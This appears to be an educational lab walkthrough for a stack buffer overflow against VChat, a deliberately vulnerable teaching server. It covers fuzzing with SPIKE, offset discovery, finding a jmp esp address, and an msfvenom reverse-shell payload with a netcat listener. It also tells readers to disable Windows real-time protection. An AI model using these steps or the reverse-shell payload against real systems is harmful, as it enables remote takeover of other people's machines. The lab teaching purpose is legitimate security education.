# VChat TRUN Exploitation: Traditional Overflow

*Notice*: 
- The following exploit and its procedures are based on the original [Blog](https://fluidattacks.com/blog/vulnserver-trun/)
- Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*
- Don't copy the *$* sign when copying and pasting a command in this tutorial
  
____
This  exploit is an example of the classic **buffer overflow**. This is a scenario where an attacker sends a carefully (or not so carefully) crafted packet to a remote server. This packet, through the use of insecure functions on the remote server to process the data it contains, allows the attacker to arbitrarily write to the program's stack or heap memory spaces. This is done by **overflowing** a variable (array's) allocated space on the stack or heap performing [out of bound writes](https://cwe.mitre.org/data/definitions/787.html). It is also possible to perform [out of bound reads](https://cwe.mitre.org/data/definitions/125.html) known as a *buffer overread* however, they are not utilized in this exploit as this attack involves writing to the stack, rather than reading from it. 

This is possible in languages like C and C++ as they **do not implement** memory safety guarantees automatically. That is we can arbitrarily write to and read from the stack or heap of a program written in C or C++. The only reason this is possible is because the compiler does not include or implement code for memory safety checks during normal memory accesses. If memory safety is guaranteed, the memory accessed in a program generated from the language's compiler (or interpreter) will always refer to valid addresses allocated to an object [1]. One example of a language with memory safety guarantees (among others) is the [Rust](https://doc.rust-lang.org/book/) programming language.


We will be exploiting a customized and modified Vulnerable By Design (VbD) server known as [VChat](https://github.com/xinwenfu/vchat), this is a modified version of the VbD program [Vulnserver](https://github.com/stephenbradshaw/vulnserver) that was written by [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm).

**Notice**: Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions primarily that we have access to the binary that may not be realistic in cases where you exploit remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

### Information Collecting
We want to understand the VChat. The most important inforamtion is the IP address of the Windows VM that runs VChat and the port number that VChat runs on. 
1. (Optional) **Windows**: Setup Vchat.
   1. Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.
      1. Create the essfunc object File. 
		```powershell
		# Compile Essfunc Object file 
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.   
		```powershell
		# Create a DLL with a static (preferred) base address of 0x62500000
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux. 
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc".a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
      3. Compile the VChat application. 
		```powershell
		# Compile and Link VChat
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
		```
         * ```vchat.c```: The source file is "vchat.c".
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".
   2. Launch the VChat application. 
		* Click on the Icon in File Explorer when it is in the same directory as the essfunc dll.
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag as the term aggressive as it does more than the normal scans and is often easily detected.
   * This scan will also attempt to determine the version of the applications, this means when it encounters a non-standard application such as *VChat* it can take 30 seconds to 1.5 minuets depending on the speed of the systems involved to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:


3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```.
   * An example is shown below:


  
4. **Linux**: We can try a few inputs to the *TRUN* command, and see if we can get any information. Simply type *TRUN* followed by some additional input as shown below


   * Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.

### Dynamic Analysis 
This phase of exploitation is where we launch the target application's binary or script and examine its behavior at runtime based on the input we provide.
We want to construct the attack string and find how we cause VChat to crash.
We want to construct an attack string as follows: padding-bytes|address-to-overwrite-return-address|shell-code, where | means concatenation.
Therefore, we want to know how many padding bytes are needed.

#### Launch VChat
1. Open Immunity Debugger

 

    * Note that you may need to launch it as the *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:
			


2. Attach VChat: There are two options! Please use the second option.
   1. (Optional) When the VChat is already Running 
        1. Click File -> Attach


		2. Select VChat 


   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat


        2. Click "Debug -> Run"


        3. Notice that a Terminal was opened when you clicked "Open" now you should see the program output


3. Ensure that the execution is not paused, click the red arrow (Top Left)
	


#### Fuzzing
SPIKE is a C based fuzzing tool that is commonly used by professionals, it is available in [kali linux](https://www.kali.org/tools/spike/). Here is [a tutorial](http://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html) of the SPIKE tool by vulnserver's author [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm) for guidance. The source code is still available on [GitHub](https://github.com/guilhermeferreira/spikepp/) and still maintained on [GitLab](https://gitlab.com/kalilinux/packages/spike).

1. Open a terminal on the **Kali Linux Machine**

3. Create a file ```TURN.spk``` with your favorite text editor. We will be using a SPIKE script and interpreter rather than writing our own C based fuzzer. We will be using the [mousepad](https://github.com/codebrainz/mousepad) text editor in this walkthrough, though any editor may be used.
	```sh
	$ mousepad TURN.spk
	```
	* If you do not have a GUI environment, an editor like [nano](https://www.nano-editor.org/), [vim](https://www.vim.org/) or [emacs](https://www.gnu.org/software/emacs/) could be used.

4. Define the FUZZER's parameters, we are going to be using [SPIKE](https://www.kali.org/tools/spike/) with the ```generic_send_tcp``` interpreter for TCP based fuzzing.  
		
	```
	s_readline();
	s_string("TRUN ");
	s_string_variable("*");
	```
    * ```s_readline();```: Return the line from the server.
    * ```s_string("TRUN ");```: Specifies that we start each message with the *String* **TURN**.
    * ```s_string_variable("*");```: Specifies a String that we will mutate over, we can set it to * to say "any" as we do in this case.
5. Use the Spike Fuzzer as shown below	
	```bash
	$ generic_send_tcp <VChat-IP> <Port> <SPIKE-Script> <SKIPVAR> <SKIPSTR>

	# Example 
	# generic_send_tcp 10.0.2.13 9999 TURN.spk 0 0	
	```
    * ```<VChat-IP>```: Replace this with the IP of the target machine. 
	* ```<Port>```: Replace this with the target port.
	* ```<SPIKE-Script>```: Script to run through the interpreter.
	* ```<SKIPVAR>```: Skip to the n'th **s_string_variable**, 0 -> (S - 1) where S is the number of variable blocks.
	* ```<SKIPSTR>```: Skip to the n'th element in the array that is **s_string_variable**, they internally are an array of strings used to fuzz the target.

6. Observe the results of the fuzzing on VChat's terminal output.



	* Notice that VChat appears to have crashed after our second message! We can see that the SPIKE script continues to run for ~190 more iterations before it fails to connect to the VChat's TCP socket, however this is long after the server started to fail connections.

7. We can also look at the comparison of the Register values before and after the fuzzing in Immunity Debugger to confirm a crash occurred. 
	* Before:


	* After:



      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).

8. We can examine the messages SPIKE is sending by examining the [tcpdump](https://www.tcpdump.org/) or [wireshark](https://www.wireshark.org/docs/wsug_html/) output.


	* After capturing the packets, right-click a TCP stream and click follow! This allows us to see all of the output. Otherwise, we would see a fragmented series of packets for larger messages



#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the return address is located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the register which will be a subset of the generated string after a crash, we can tell where in memory the return address is stored. 
	```bash
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject and overwrite a new return address at the location our program reads the original return address from.

2. Modify your exploit code to reflect the [exploit1.py](./SourceCode/exploit1.py) script and run it to inject a cyclic pattern into the Vulnserver program's stack and observe the EIP register. 



3. Notice that the EIP register reads `386F4337` in this case, we can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the return address's offset based on our search string's position in the pattern we sent to VChat. 
	```bash
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337
	```
	* This will return an offset as shown below 



5. (Optional) Use the [mona.py](https://github.com/corelan/mona) python program within Immunity Debugger to determine useful information about our target process. While the *cyclic pattern* from [exploit1.py](./SourceCode/exploit1.py) is in memory we can run the command ```!mona findmsp``` in the command line at the bottom of the Immunity Debugger GUI. **Note:** We must have sent the cyclic pattern and it must be present in the stack frame at the time we run this command!



      * We can see that the offset (Discovered with [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) earlier) is at the byte offset of `2003`, the ESP has `984` bytes after jumping to the address in the ESP register, and the EBP is at the byte offset `1999`.
      * The most important thing we learned is that we have `984` bytes to work with! This is because the malcious message is truncated by VChat


4. Now modify the exploit program to reflect the code in the [exploit2.py](./SourceCode/exploit2.py) script and run the exploit against VChat.
   * We do this to validate that we have the correct offset for the return address! 



		* See that the EIP is a series of the value `0x42` this is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the target program.
		* *Note:* It took a few runs for this to work and update on Immunity Debugger within the VirtualBox VM.

6. Open the `Executable Modules` window from the **views** tab in Immunity Debugger. This allows us to see the memory offsets of each dependency VChat uses. This will help inform us as to which `jmp esp` instruction we should pick, since we want to avoid any *Windows dynamic libraries* since their base addresses may vary between executions and Windows systems. 


7. Use the command `!mona jmp -r esp -cp nonull -o` in the Immunity Debugger's GUI command line to find some `jmp esp` instructions.

The address of a `jmp esp` instruction will be used to overwrite the return address of the victim function so that when the victim funciton returns, `jmp esp` gets running. When `jmp esp` runs, it jumps to the location referred to by esp (stack top), whhere the shellcode will be put.


- The `-r esp` flag tells *mona.py* to search for the `jmp esp` instruction.
- The `-cp nonull` flag tells *mona.py* to ignore null values.
- The `-o` flag tells *mona.py* to ignore OS modules.
- We can select any output from this. 


We can see there are nine possible `jmp esp` instructions in the *essfunc* dll that we can use, any should work. We will use the last one, `0x6250151e`

8. Modify your exploit program to reflect the [exploit3.py](./SourceCode/exploit3.py) script, we use this to verify that the `jmp esp` address we inject works.
   1. Click on the black button highlighted below, and enter in the address we decided in the previous step.


   2. Set a breakpoint at the desired address (right-click).


   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See EIP/ESP and stack changes and the message at the bottom of the screen).


         * Notice that the EIP now points to an essfunc.dll address!
	4. Once the overflow occurs, click the *step into* button highlighted below.



	5. Notice that we jumped to the stack; we just overflowed!


Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine. 

### Exploitations
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (A series of `A`s, `B`s and `C`s) all we have done with our exploits is crash the VChat server. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. We first need to generate some shell code to inject into the process. We will use the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) tool to both generate shellcode and encode it to ensure it is transmitted properly. We **must** encode the resulting shellcode so it does not contain any null bytes `0x0`, carriage returns `\r` or newlines `\n`, as their presence would prevent the shellcode from properly executing by breaking the transmission, reception or execution of the shellcode. **Note**: you may need to type the command since copy and paste may not work.

	```sh
	msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```

 
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format. 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values. 
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline. 

2. Insert this into your exploit python code as shown in [exploit4.py](./SourceCode/exploit4.py) or [exploit5.py](./SourceCode/exploit5.py). The only difference between the two is that the extra padding at the end of [exploit4.py](./SourceCode/exploit4.py)'s payload `b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))` is not needed.
3. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target. 
	```sh
	nc -l -v -p 8080
	```
	* `nc`: The netcat command.
  	* `-l`: Set netcat to listen for connections. 
  	* `v`: Verbose output. 
  	* `p`: Set to listen on a port, in this case, port 8080.

4. Run VChat directly or Examine Immunity Debugger with a Break Point during Exploit
Now we cn run VChat directly. Alternatively, we can run VChat in Immunity Debugger and examine a few things. So the follwing steps are optional.
   1. As done previously goto the `jmp esp` instruction
		


    2. Set a breakpoint and launch the exploit



    3. Click the *Step* function a few times, it may look like we are not doing anything (Depending on your padding), however after some number of steps we should arrive at the shellcode as shown below!



     4. Once you are satisfied we are executing the shell code, click the continue (Red arrow) button to allow it to execute.
5. Look around in your netcat terminal! You should see a shell like the one shown below. Just note that Windows defender may kill it if you have protections enabled!

